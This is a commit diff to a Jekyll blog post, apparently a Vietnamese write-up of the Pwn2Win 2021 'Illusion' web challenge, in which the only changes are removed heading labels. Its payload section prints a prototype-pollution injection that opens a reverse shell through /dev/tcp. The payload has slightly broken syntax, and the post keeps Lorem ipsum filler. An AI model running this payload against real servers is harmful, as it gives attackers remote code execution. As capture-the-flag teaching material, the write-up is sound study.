

Before and after one commit to DauHoangTai/DauHoangTai.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 76% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; the list of posts is cut into pages by our own code.

````diff
--- a/_posts/2020-09-06-[WRITEUP-PWN2WIN-2021]-WEB.md
+++ b/_posts/2020-09-06-[WRITEUP-PWN2WIN-2021]-WEB.md
@@ -7,15 +7,15 @@ toc: true
 
 Lorem ipsum dolor sit amet, consectetur adipiscing elit. Fusce bibendum neque eget nunc mattis eu sollicitudin enim tincidunt. Vestibulum lacus tortor, ultricies id dignissim ac, bibendum in velit.
 
-## Challenge Illusion (h2)
+## Challenge Illusion
 
 - Source: [illusion](https://github.com/DauHoangTai/CTF/tree/master/2021/Pwn2win/illusion)
 
-### Overview (h3)
+### Overview
 
 - Trang web chỉ hiện thị các service nào đang online và offline nhưng ở đây tất cả đều online. Cấu trúc của folder chứa challenge mà author cung cấp thì chúng ta thấy có file `flag.txt` và `readflag` nhưng nó không được gọi ra ở bất kì đâu => có lẽ phải RCE để thực thi file `readflag`.
 
-### Analysis Source (h3)
+### Analysis Source
 
 - Nhìn vào source thì thấy có 1 endpoint `change_status` là có thể khai thác.
 ![image](https://user-images.githubusercontent.com/54855855/121309532-7c888d80-c92c-11eb-8687-73a2225375f0.png)
@@ -24,14 +24,14 @@ Lorem ipsum dolor sit amet, consectetur adipiscing elit. Fusce bibendum neque eg
 - File `index.ejs` thì sẽ in ra các value của services.
 => chúng ta có thể dựa vào cách nó in ra thẳng input của người dùng mà không xử lí đầu vào => prototype pollution attack.
 
-### Solution (h3)
+### Solution
 
 - Ở bài này chúng ta không thể gọi prototype như bình thường vì nó bị chặn. Sau khi tìm kiếm thì phát hiện ở thư viện ` fast-json-patch` gần đây có thể tấn công prototype pollution
 link: https://github.com/418sec/huntr/pull/768
 - Sử dụng nó kèm theo hàm `outputFunctionName` ở trong node js có thể rce
 Vậy bây giờ ta chỉ cần sử dụng nó và RCE để lấy flag.
 
-### Payload (h3)
+### Payload
 
 ```js
 constructor/prototype/outputFunctionName='x; return return global.process.mainModule.constructor._load("child_process").execSync(bash -c "bash -i >& /dev/tcp/host/port 0>&1");'
````
